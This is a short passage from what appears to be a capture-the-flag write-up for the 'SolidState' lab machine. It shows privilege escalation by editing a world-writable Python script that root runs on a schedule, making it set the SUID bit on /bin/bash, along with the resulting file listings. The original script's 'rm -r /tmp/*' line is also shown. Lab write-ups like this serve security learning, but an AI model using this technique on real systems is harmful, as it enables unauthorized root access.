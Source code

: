 ```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ls -l /opt/tmp.py 
-rwxrwxrwx 1 root root 105 Aug 22  2017 /opt/tmp.py
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$
```

If you use pspy you have to see that

```bash
2023/01/26 19:27:01 CMD: UID=0     PID=22630  | /bin/sh -c python /opt/tmp.py 
2023/01/26 19:27:01 CMD: UID=0     PID=22631  | 
2023/01/26 19:27:01 CMD: UID=0     PID=22632  | sh -c rm -r /tmp/*  
2023/01/26 19:27:01 CMD: UID=0     PID=22633  | sh -c rm -r /tmp/*
```

Root run the script 

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ cat /opt/tmp.py 
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()

${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ 

```

The os.system library is imported and is run by root so we can alter that because we have permissions to write the script

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ cat /opt/tmp.py 
#!/usr/bin/env python
import os
import sys
try:
     os.system('chmod u+s /bin/bash')
except:
     sys.exit()

${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$
```


Now we have to wait the bash to be suid

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$
```
